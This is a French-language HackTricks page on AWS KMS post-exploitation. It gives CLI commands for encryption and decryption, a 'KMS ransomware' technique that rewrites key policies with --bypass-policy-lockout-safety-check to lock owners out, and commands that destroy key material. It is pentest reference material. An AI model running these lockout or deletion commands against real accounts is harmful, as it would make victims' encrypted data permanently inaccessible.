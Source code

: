 # AWS - Post Exploitation de KMS

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>

## KMS

Pour plus d'informations, consultez :

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Chiffrer/Déchiffrer des informations

* Utilisation d'une clé **symétrique**
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Utilisation d'une clé **asymétrique** :
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

Un attaquant ayant un accès privilégié à KMS pourrait modifier la politique KMS des clés et **accorder à son compte un accès à ces clés**, supprimant ainsi l'accès accordé au compte légitime.

Ensuite, les utilisateurs du compte légitime ne pourront pas accéder aux informations de tout service qui a été chiffré avec ces clés, créant ainsi un ransomware facile mais efficace sur le compte.

{% hint style="warning" %}
Notez que les **clés gérées par AWS ne sont pas affectées** par cette attaque, seules les **clés gérées par le client** le sont.

Notez également la nécessité d'utiliser le paramètre **`--bypass-policy-lockout-safety-check`** (l'absence de cette option dans la console Web rend cette attaque possible uniquement depuis l'interface de ligne de commande).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Notez que si vous modifiez cette politique et ne donnez accès qu'à un compte externe, puis à partir de ce compte externe vous essayez de définir une nouvelle politique pour **redonner l'accès au compte d'origine, vous ne pourrez pas le faire**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Détruire les clés
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Notez que AWS empêche désormais les actions précédentes d'être effectuées à partir d'un compte externe :
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux référentiels GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
